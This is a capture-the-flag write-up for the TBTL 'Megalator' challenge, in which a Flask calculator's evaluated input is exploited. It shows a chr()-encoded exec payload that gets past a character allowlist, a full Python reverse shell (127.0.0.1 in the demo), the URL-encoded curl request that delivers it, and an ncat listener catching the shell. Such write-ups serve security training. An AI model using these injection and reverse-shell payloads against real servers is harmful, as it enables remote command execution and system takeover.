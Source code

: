 # 2022 TBTL - Megalator

Megalator is a web page that offers calculator like service where one inputs the mathematical expression and the expression is **evaluated** with a result returned in the HTTP response:
```sh
$ curl "https://tbtl-megalator.chals.io/calc?expression=5*2" -i
HTTP/1.1 200 OK
Server: Werkzeug/2.1.1 Python/3.8.13
Date: Thu, 12 May 2022 13:50:56 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2

10
```

The largest tell in this challenge is if we pass only the mathematical operation (+, -, ...):
```sh
$ curl "https://tbtl-megalator.chals.io/calc?expression=+" -i
HTTP/1.1 200 OK
Server: Werkzeug/2.1.1 Python/3.8.13
Date: Thu, 12 May 2022 13:51:39 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 47

unexpected EOF while parsing (<string>, line 0)
```

This `unexpected EOF` message usually means that the input is evaluated and our code ended "too soon". The `Python` header suggests a Flask app, so we can easily continue with some Flask specific tests (or built-in functions). Keep in mind that `eval` is blocked, but there is `exec` function that can be used when `eval` is not available:
```sh
$ curl "https://tbtl-megalator.chals.io/calc?expression=eval(print(app))" -i
HTTP/1.1 200 OK
Server: Werkzeug/2.1.1 Python/3.8.13
Date: Thu, 12 May 2022 13:55:09 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 10

Barricade!
```

We can also leak the character allowlist to make our job easier:
```sh
$ curl "https://tbtl-megalator.chals.io/calc?expression=locals()" -i
HTTP/1.1 200 OK
Server: Werkzeug/2.1.1 Python/3.8.13
Date: Thu, 12 May 2022 13:55:46 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 124

{'expression': 'locals()', 'white_list': 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789()+-*/% ', 'c': ')'}
```

Since we cannot use strings (quotations are not allowed), the most straightforward approach is to use `chr` calls to construct a string inside the `exec` function:
```
>>> cmd = "import os; os.system('id')"
>>> 
>>> for i in cmd:
...     print("chr({})+".format(ord(i)), end='')
... 
chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(59)+chr(32)+chr(111)+chr(115)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(105)+chr(100)+chr(39)+chr(41)+
>>> exec(chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(59)+chr(32)+chr(111)+chr(115)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(105)+chr(100)+chr(39)+chr(41))
uid=1000(vm) gid=1000(vm) groups=1000(vm),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare)
```

In order to get the flag for this challenge, the following steps were made:
- converted the python TCP reverse shell into `chr(...)+chr(...)+...` format (localhost used here for demo purposes)
```
>>> cmd = 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
>>> for i in cmd:
...     print("chr({})+".format(ord(i)), end='')
... 
chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(115)+chr(111)+chr(99)+chr(107)+chr(101)+chr(116)+chr(44)+chr(111)+chr(115)+chr(44)+chr(112)+chr(116)+chr(121)+chr(59)+chr(115)+chr(61)+chr(115)+chr(111)+chr(99)+chr(107)+chr(101)+chr(116)+chr(46)+chr(115)+chr(111)+chr(99)+chr(107)+chr(101)+chr(116)+chr(40)+chr(115)+chr(111)+chr(99)+chr(107)+chr(101)+chr(116)+chr(46)+chr(65)+chr(70)+chr(95)+chr(73)+chr(78)+chr(69)+chr(84)+chr(44)+chr(115)+chr(111)+chr(99)+chr(107)+chr(101)+chr(116)+chr(46)+chr(83)+chr(79)+chr(67)+chr(75)+chr(95)+chr(83)+chr(84)+chr(82)+chr(69)+chr(65)+chr(77)+chr(41)+chr(59)+chr(115)+chr(46)+chr(99)+chr(111)+chr(110)+chr(110)+chr(101)+chr(99)+chr(116)+chr(40)+chr(40)+chr(34)+chr(49)+chr(50)+chr(55)+chr(46)+chr(48)+chr(46)+chr(48)+chr(46)+chr(49)+chr(34)+chr(44)+chr(56)+chr(48)+chr(48)+chr(48)+chr(41)+chr(41)+chr(59)+chr(111)+chr(115)+chr(46)+chr(100)+chr(117)+chr(112)+chr(50)+chr(40)+chr(115)+chr(46)+chr(102)+chr(105)+chr(108)+chr(101)+chr(110)+chr(111)+chr(40)+chr(41)+chr(44)+chr(48)+chr(41)+chr(59)+chr(111)+chr(115)+chr(46)+chr(100)+chr(117)+chr(112)+chr(50)+chr(40)+chr(115)+chr(46)+chr(102)+chr(105)+chr(108)+chr(101)+chr(110)+chr(111)+chr(40)+chr(41)+chr(44)+chr(49)+chr(41)+chr(59)+chr(111)+chr(115)+chr(46)+chr(100)+chr(117)+chr(112)+chr(50)+chr(40)+chr(115)+chr(46)+chr(102)+chr(105)+chr(108)+chr(101)+chr(110)+chr(111)+chr(40)+chr(41)+chr(44)+chr(50)+chr(41)+chr(59)+chr(112)+chr(116)+chr(121)+chr(46)+chr(115)+chr(112)+chr(97)+chr(119)+chr(110)+chr(40)+chr(34)+chr(47)+chr(98)+chr(105)+chr(110)+chr(47)+chr(115)+chr(104)+chr(34)+chr(41)+>>>
```
- executed the result as `exec(chr(...)+chr(...)+...)` in the `expression` parameter (localhost used here for demo purposes)
```
$ curl -i "https://tbtl-megalator.chals.io/calc?expression=exec%28chr%28105%29%2Bchr%28109%29%2Bchr%28112%29%2Bchr%28111%29%2Bchr%28114%29%2Bchr%28116%29%2Bchr%2832%29%2Bchr%28115%29%2Bchr%28111%29%2Bchr%2899%29%2Bchr%28107%29%2Bchr%28101%29%2Bchr%28116%29%2Bchr%2844%29%2Bchr%28111%29%2Bchr%28115%29%2Bchr%2844%29%2Bchr%28112%29%2Bchr%28116%29%2Bchr%28121%29%2Bchr%2859%29%2Bchr%28115%29%2Bchr%2861%29%2Bchr%28115%29%2Bchr%28111%29%2Bchr%2899%29%2Bchr%28107%29%2Bchr%28101%29%2Bchr%28116%29%2Bchr%2846%29%2Bchr%28115%29%2Bchr%28111%29%2Bchr%2899%29%2Bchr%28107%29%2Bchr%28101%29%2Bchr%28116%29%2Bchr%2840%29%2Bchr%28115%29%2Bchr%28111%29%2Bchr%2899%29%2Bchr%28107%29%2Bchr%28101%29%2Bchr%28116%29%2Bchr%2846%29%2Bchr%2865%29%2Bchr%2870%29%2Bchr%2895%29%2Bchr%2873%29%2Bchr%2878%29%2Bchr%2869%29%2Bchr%2884%29%2Bchr%2844%29%2Bchr%28115%29%2Bchr%28111%29%2Bchr%2899%29%2Bchr%28107%29%2Bchr%28101%29%2Bchr%28116%29%2Bchr%2846%29%2Bchr%2883%29%2Bchr%2879%29%2Bchr%2867%29%2Bchr%2875%29%2Bchr%2895%29%2Bchr%2883%29%2Bchr%2884%29%2Bchr%2882%29%2Bchr%2869%29%2Bchr%2865%29%2Bchr%2877%29%2Bchr%2841%29%2Bchr%2859%29%2Bchr%28115%29%2Bchr%2846%29%2Bchr%2899%29%2Bchr%28111%29%2Bchr%28110%29%2Bchr%28110%29%2Bchr%28101%29%2Bchr%2899%29%2Bchr%28116%29%2Bchr%2840%29%2Bchr%2840%29%2Bchr%2834%29%2Bchr%2849%29%2Bchr%2850%29%2Bchr%2855%29%2Bchr%2846%29%2Bchr%2848%29%2Bchr%2846%29%2Bchr%2848%29%2Bchr%2846%29%2Bchr%2849%29%2Bchr%2834%29%2Bchr%2844%29%2Bchr%2856%29%2Bchr%2848%29%2Bchr%2848%29%2Bchr%2848%29%2Bchr%2841%29%2Bchr%2841%29%2Bchr%2859%29%2Bchr%28111%29%2Bchr%28115%29%2Bchr%2846%29%2Bchr%28100%29%2Bchr%28117%29%2Bchr%28112%29%2Bchr%2850%29%2Bchr%2840%29%2Bchr%28115%29%2Bchr%2846%29%2Bchr%28102%29%2Bchr%28105%29%2Bchr%28108%29%2Bchr%28101%29%2Bchr%28110%29%2Bchr%28111%29%2Bchr%2840%29%2Bchr%2841%29%2Bchr%2844%29%2Bchr%2848%29%2Bchr%2841%29%2Bchr%2859%29%2Bchr%28111%29%2Bchr%28115%29%2Bchr%2846%29%2Bchr%28100%29%2Bchr%28117%29%2Bchr%28112%29%2Bchr%2850%29%2Bchr%2840%29%2Bchr%28115%29%2Bchr%2846%29%2Bchr%28102%29%2Bchr%28105%29%2Bchr%28108%29%2Bchr%28101%29%2Bchr%28110%29%2Bchr%28111%29%2Bchr%2840%29%2Bchr%2841%29%2Bchr%2844%29%2Bchr%2849%29%2Bchr%2841%29%2Bchr%2859%29%2Bchr%28111%29%2Bchr%28115%29%2Bchr%2846%29%2Bchr%28100%29%2Bchr%28117%29%2Bchr%28112%29%2Bchr%2850%29%2Bchr%2840%29%2Bchr%28115%29%2Bchr%2846%29%2Bchr%28102%29%2Bchr%28105%29%2Bchr%28108%29%2Bchr%28101%29%2Bchr%28110%29%2Bchr%28111%29%2Bchr%2840%29%2Bchr%2841%29%2Bchr%2844%29%2Bchr%2850%29%2Bchr%2841%29%2Bchr%2859%29%2Bchr%28112%29%2Bchr%28116%29%2Bchr%28121%29%2Bchr%2846%29%2Bchr%28115%29%2Bchr%28112%29%2Bchr%2897%29%2Bchr%28119%29%2Bchr%28110%29%2Bchr%2840%29%2Bchr%2834%29%2Bchr%2847%29%2Bchr%2898%29%2Bchr%28105%29%2Bchr%28110%29%2Bchr%2847%29%2Bchr%28115%29%2Bchr%28104%29%2Bchr%2834%29%2Bchr%2841%29%29"
HTTP/1.1 200 OK
Server: Werkzeug/2.1.1 Python/3.8.13
Date: Fri, 13 May 2022 07:38:29 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 30

[Errno 111] Connection refused
```
- obtained the reverse shell on the server and `cat flag.txt` on the obtained shell (actual server)
```
$ ncat -nlvp 8000
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 167.99.113.107.
Ncat: Connection from 167.99.113.107:52042.
$ cat flag.txt
cat flag.txt
TBTL{50met1me5_5trong_15_we4k}
```
